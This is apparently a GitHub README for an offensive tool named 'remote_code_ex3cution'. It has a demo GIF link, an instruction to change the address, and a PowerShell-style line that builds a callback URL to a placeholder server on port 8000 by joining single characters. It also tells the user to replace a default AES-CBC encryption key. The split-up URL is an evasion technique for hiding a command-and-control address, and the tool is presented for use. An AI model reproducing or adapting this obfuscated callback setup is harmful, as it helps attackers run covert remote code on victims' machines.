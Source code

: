 ## remote_code_ex3cution


## DEMO
![DEMOGIF](https://user-images.githubusercontent.com/118774522/220413885-c2254a98-28e4-4fb3-967b-5b3693019456.gif)



! CHANGE ADDRESS

`$U='h'+ 't'+ 't'+ 'p'+':'+ '/'+'/'+ '0'+ '0'+'0'+'.'+'0'+ '0'+'0'+'.'+'0'+'0'+'0'+'.'+'0'+ '0'+ '0'+':'+ '8'+'0'+'0'+ '0'`


To enhance security, it is recommended to replace the default encryption key "abcdefghijklmnop" with a custom key of your choice. Keep in mind that the key must be exactly 16 characters long to work with the AES encryption in CBC mode. 

by:@ rick porto
